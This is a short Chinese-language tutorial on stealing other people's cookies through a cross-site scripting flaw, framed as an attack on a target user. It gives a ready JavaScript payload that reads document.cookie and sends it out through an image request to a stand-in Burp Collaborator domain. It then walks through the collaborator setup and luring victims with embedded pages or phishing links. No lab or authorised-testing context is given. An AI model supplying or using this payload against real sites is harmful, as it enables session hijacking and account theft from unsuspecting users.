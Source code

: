 通过JavaScript和跨站脚本（XSS）漏洞来窃取他人的Cookie并将其发送到Burp Collaborator的过程中，需要以下步骤：

### 1. **寻找XSS漏洞**
   你首先需要在目标应用中找到可利用的XSS漏洞。XSS漏洞可以是反射型、存储型或基于DOM的。如果你可以在目标的网页中插入并执行任意JavaScript代码，那么你就有机会窃取他们的Cookie。

### 2. **构造恶意的JavaScript代码**
   你需要编写一个恶意的JavaScript脚本，用于获取目标用户的Cookie并将其发送到你的Burp Collaborator服务器。脚本可能如下所示：

   ```javascript
   <script>
       // 获取Cookie
       var cookie = document.cookie;

       // 发送到Burp Collaborator
       var img = new Image();
       img.src = "http://你的-collaborator-域名.burpcollaborator.net/?cookie=" + encodeURIComponent(cookie);
   </script>
   ```

   在这个脚本中：
   - `document.cookie` 用来获取用户的Cookie。
   - 通过构造一个`Image`对象，将Cookie作为参数添加到URL，并向Burp Collaborator服务器发送请求。Burp Suite会捕获到这个请求，并显示目标用户的Cookie。

### 3. **Burp Collaborator 设置**
   - 打开Burp Suite。
   - 转到 **Burp Collaborator Client** 选项卡。
   - 生成一个Burp Collaborator的域名（例如：`xyz.burpcollaborator.net`）。
   - 将生成的域名替换到你的JavaScript代码中。

### 4. **攻击流程**
   - 诱使目标用户访问包含上述恶意JavaScript代码的网页。代码可以嵌入到页面中，也可以通过社会工程手段发送钓鱼链接。
   - 一旦目标用户访问了该页面，恶意脚本就会自动执行，用户的Cookie会通过构造的请求发送到你的Burp Collaborator。

### 5. **从Burp Suite获取Cookie**
   - 在Burp Suite的 **Burp Collaborator Client** 中，等待Cookie数据返回。
   - 当目标访问了恶意链接后，你会在Burp Collaborator中看到对应的请求及Cookie。

